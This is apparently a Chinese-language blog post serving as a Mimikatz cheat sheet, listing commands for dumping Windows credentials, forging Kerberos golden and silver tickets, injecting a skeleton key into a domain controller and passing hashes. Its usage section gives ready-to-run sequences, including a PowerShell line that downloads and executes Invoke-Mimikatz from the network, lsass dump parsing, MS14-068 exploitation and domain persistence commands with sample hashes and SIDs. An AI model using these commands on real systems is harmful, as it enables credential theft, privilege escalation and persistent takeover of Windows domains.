```yaml
---
published: true
layout: post
---
```




# 常用的Mimikatz命令及相关功能
[下载链接](http://blog.gentilkiwi.com/mimikatz)

---



`CRYPTO::CERTIFICATES` 列出/导出凭证

`EXIT` 退出

`KERBEROS::GOLDEN`  创建黄金票证/白银票证/信任票证

`KERBEROS::LIST` ---------------- 列出在用户的内存中所有用户的票证（TGT 和 TGS）。不需要特殊的权限，因为它仅显示当前用户的票证。与 “KLIST” 的功能相似。

`KERBEROS::PTT` ----------------- 票证传递。通常用于注入窃取或伪造的 `KERBEROS` 票证（黄金票证/白银票证/信任票证）。

`LSADUMP::DCSYNC` --------------- 向 DC 发起同步一个对象（获取帐户的密码数据）的质询。无需在 DC 上执行代码。

`LSADUMP::LSA` –----------------- 向 LSA SERVER 质询检索 SAM/AD 的数据（正常或未打补丁的情况下）。可以从 DC 或者是一个LSASS.DMP 的转储文件中导出所有的 ACTIVE DIRECTORY 域凭证数据。同样也可以获取指定帐户的凭证，如 KRBTGT 帐户，使用 /NAME 参数，如：“/NAME:KRBTGT”

`LSADUMP::SAM` ------------------ 获取 SYSKEY 来解密 SAM 的项目数据（从注册表或者 HIVE 中导出）。SAM 选项可以连接到本地安全帐户管理器（SAM）数据库中并能转储本地帐户的凭证。可以用来转储在 WINDOWS 计算机上的所有的本地凭据。

`LSADUMP::TRUST` ---------------- 向 LSA SERVER 质询来获取信任的认证信息（正常或未打补丁的情况下）。为所有相关的受信的域或林转储信任密钥（密码）。

`MISC::ADDSID` –----------------- 将用户帐户添加到 SID 历史记录。第一个值是目标帐户，第二值是帐户/组名（可以是多个）（或 SID ）。

`MISC::MEMSSP` –----------------- 注入恶意的 WNDOWS SSP 来记录本地身份验证凭据。

`MISC::SKELETON` –--------------- 在 DC 中注入万能钥匙（SKELETON KEY） 到 LSASS 进程中。这使得所有用户所使用的万能钥匙修补 DC 使用 “主密码” （又名万能钥匙）以及他们自己通常使用的密码进行身份验证。

`NOGPO::CMD`--------------------- 打开系统的CMD.EXE

`NOGPO::REGEDIT` ---------------- 打开系统的注册表

`NOGPO::TASKMGR`----------------- 打开任务管理器

`PROCESS::LIST`------------------ 列出进程

`PROCESS::SUSPEND 进程名称` ------ 暂停进程

`PROCESS::STOP 进程名称`---------- 结束进程

`PROCESS::MODULES` -------------- 列出系统的核心模块及所在位置

`PRIVILEGE::DEBUG` -–------------ 获得 DEBUG 权限（很多 MIMIKATZ 命令需要 DEBUG 权限或本地 SYSTEM 权限）。

`PRIVILEGE::LIST`---------------- 列出权限列表

`PRIVILEGE::ENABLE`-------------- 激活一个或多个权限

`SYSTEM::USER`------------------- 查看当前登录的系统用户

`SYSTEM::COMPUTER`--------------- 查看计算机名称

`SERVICE::LIST`------------------ 列出系统的服务

`SERVICE::REMOVE`---------------- 移除系统的服务

`SERVICE::START STOP 服务名称`---- 启动或停止服务

`SEKURLSA::WDIGEST`-------------- 获取本地用户信息及密码

`SEKURLSA::TSPKG`---------------- 获取TSPKG用户信息及密码

`SEKURLSA::EKEYS` –-------------- 列出 KERBEROS 密钥

`SEKURLSA::KERBEROS` –----------- 列出所有已通过认证的用户的 KERBEROS 凭证（包括服务帐户和计算机帐户）

`SEKURLSA::KRBTGT` –------------- 获取域中 KERBEROS 服务帐户（KRBTGT）的密码数据

`SEKURLSA::LOGONPASSWORDS` –----- 列出所有可用的提供者的凭据。这个命令通常会显示最近登录过的用户和最近登录过的计算机的凭证。

`SEKURLSA::PTH` –---------------- HASH 传递 和 KEY 传递（注：OVER-PASS-THE-HASH 的实际过程就是传递了相关
的 KEY(S)）

`SEKURLSA::TICKETS` –------------ 列出最近所有已经过身份验证的用户的可用的 KERBEROS 票证，包括使用用户帐户的上下文运行的服务和本地计算机在 AD 中的计算机帐户。与 KERBEROS::LIST 不同的是 SEKURLSA 使用内存读取的方式，它不会受到密钥导出的限制。

`TS::SESSIONS`------------------- 显示当前的会话

`TS::PROCESSES`------------------ 显示进程和对应的PID情况等

`TOKEN::LIST` –------------------ 列出系统中的所有令牌

`TOKEN::ELEVATE` –--------------- 假冒令牌。用于提升权限至 SYSTEM 权限（默认情况下）或者是发现计算机中的域管理员的令牌。

`TOKEN::ELEVATE /DOMAINADMIN` –-- 假冒一个拥有域管理员凭证的令牌。

mimikatz # lsadump::lsa /inject /name:krbtgt

mimikatz # lsadump::lsa /patch




-------------------------------------------------

常用

# 获取本机信息

* 直接获取内存口令 mimikatz：
`privilege::debug`
`sekurlsa::logonpasswords`

* 通过内存文件获取口令 使用procdump导出lsass.dmp mimikatz：
`sekurlsa::minidump lsass.dmp`
`sekurlsa::logonPasswords full`

* 通过powershell加载mimikatz获取口令
`powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz`

参考[3gstudent大神](http://static.hx99.net/static/drops/tips-7547.html):

`ms14-068.exe -u -p -s -d`
`kerberos::ptc test.ccache`

* 导出所有用户口令 使用Volue Shadow Copy获得SYSTEM、SAM备份（之前文章有介绍） mimikatz：
`lsadump::sam SYSTEM.hiv SAM.hiv`

# 维持域控权限

* Skeleton Key mimikatz：
`privilege::debug`
`misc::skeleton`

* golden ticket mimikatz：
`lsadump::lsa /patch`


* (Golden Ticket)生成万能票据： mimikatz：
`kerberos::golden /user:Administrator /domain:test.local /sid:S-1-5-21-2848411111-3820811111-1717111111 /krbtgt:d3b949b1f4ef947820f0950111111111 /ticket:test.kirbi`

* 导入票据： mimikatz：
`kerberos::ptt test.kirbi`

* Pass-The-Hash mimikatz：
`sekurlsa::pth /user:Administrator /domain:test.local /ntlm:cc36cf7a8514893efccd332446158b1a`

[mimikittenz](https://github.com/putterpanda/mimikittenz)是一款ps的抓密码的工具

